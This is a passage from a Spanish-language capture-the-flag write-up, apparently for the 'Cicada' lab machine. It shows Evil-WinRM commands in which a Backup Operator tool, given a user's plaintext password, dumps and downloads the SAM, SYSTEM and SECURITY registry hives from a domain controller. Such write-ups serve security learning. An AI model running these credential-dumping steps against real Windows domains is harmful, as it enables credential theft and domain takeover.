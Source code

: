 ```console
Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> dir


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/30/2024   3:41 PM          18432 BackupOperatorToDA.exe
-ar---         9/30/2024  10:25 AM             34 user.txt

```

Ahora podemos dumpear los archivos necesarios a la ruta que queramos.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> .\BackupOperatorToDA.exe -t \\CICADA-DC.cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -d cicada.htb -o C:\Users\emily.oscars.CICADA\Documents\
Making user token
Dumping SAM hive to C:\Users\emily.oscars.CICADA\Documents\SAM
Dumping SYSTEM hive to C:\Users\emily.oscars.CICADA\Documents\SYSTEM
Dumping SECURITY hive to C:\Users\emily.oscars.CICADA\Documents\SECURITY
```

Y aquí tenemos los archivos.
```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents>       dir


    Directory: C:\Users\emily.oscars.CICADA\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/30/2024   3:44 PM          28672 SAM
-a----         9/30/2024   3:44 PM          36864 SECURITY
-a----         9/30/2024   3:44 PM       18792448 SYSTEM

```

Ahora haciendo uso de la función `download` de `evil-winrm` podemos descargar los archivos.

```console
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SAM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SECURITY
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SECURITY to SECURITY
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download SYSTEM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Documents\SYSTEM to SYSTEM
                                        
Info: Download successful!
```
